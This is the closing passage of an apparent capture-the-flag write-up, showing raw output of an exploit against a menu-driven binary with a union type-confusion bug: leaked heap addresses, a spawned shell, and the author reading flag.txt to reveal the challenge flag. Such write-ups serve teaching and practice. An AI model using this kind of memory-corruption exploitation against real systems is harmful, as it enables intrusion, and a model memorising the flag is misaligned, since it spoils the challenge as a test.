 ```  
like your string to be'  
b'\nWhat is your data'  
b'\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3.
Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you
like your string to be'  
b'\nWhat is your data'  
b'\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3.
Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat index would you like to modify'  
b'?\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat is your value:'  
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2.
Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat index would you like to modify'  
b'?\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you
like your string to be'  
b'\nWhat is your data'  
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2.
Display objects\n3. Edit Object\n4. Delete Object\n5. Exit\n'  
b'&r2\x9b$V'  
0x56249b327226  
0x56249b327680  
b'\n11111111111111111111\nWhat would you like to do?\n1. Create new object\n2.
Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat index would you like to modify'  
b'?\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat is your value:'  
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2.
Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat index would you like to modify'  
b'?\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you
like your string to be'  
b'\nWhat is your data'  
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2.
Display objects\n3. Edit Object\n4. Delete Object\n5. Exit\n'  
[*] Switching to interactive mode  
$ ls  
chall  
chall.sh  
flag.txt  
$ cat flag.txt  
MetaCTF{Unions_Can_Be_Problematic}  
```  
Thanks for reading!
